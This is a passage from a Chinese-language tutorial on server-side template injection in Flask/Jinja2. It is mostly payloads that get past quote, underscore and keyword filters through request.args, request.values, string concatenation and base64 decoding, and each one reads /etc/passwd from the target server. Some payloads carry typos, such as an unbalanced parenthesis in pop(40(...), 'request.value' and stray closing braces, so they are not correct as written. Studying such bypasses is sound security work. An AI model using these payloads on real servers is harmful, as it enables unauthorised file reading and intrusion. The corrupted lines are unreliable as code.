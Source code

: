 `request.args`  是 flask 中的一个属性,为返回请求的参数,这里把`path`当作变量名,将后面的路径传值进来,进而绕过了引号的过滤

```
\{\{().__class__.__bases__.__getitem__(0).__subclasses__().pop(40(request.args.path).read()\}\}&path=/etc/passwd\}\}
```

3.绕过下划线

同样利用`request.args`属性

```
\{\{ ''[request.args.class][request.args.mro][2][request.args.subclasses]()[40]('/etc/passwd').read() \}\}&class=__class__&mro=__mro__&subclasses=__subclasses__\}\}
```

将其中的`request.args`改为`request.values`则利用 post 的方式进行传参

```
GET:
\{\{ ''[request.value.class][request.value.mro][2][request.value.subclasses]()[40]('/etc/passwd').read() \}\}
POST:
class=__class__&mro=__mro__&subclasses=__subclasses__
```

4.绕过关键字，例如被过滤掉`__class__`关键词

首先我们可以尝试字符串拼接，再尝试一下编码绕过，但是都要用到\_\_getattribute\_\_，下面是两个具体的利用 payload

```
\{\{[].__getattribute__('__c'+'lass__').__base__.__subclasses__()[40]("/etc/passwd").read()\}\}
```

```
\{\{[].__getattribute__('X19jbGFzc19f'.decode('base64')).__base__.__subclasses__()[40]("/etc/passwd").read()\}\}
```

- **结语**

兄弟姐妹们，终于把 SSTI 这“点”事说完了，祝各位师傅们一起继续加油哈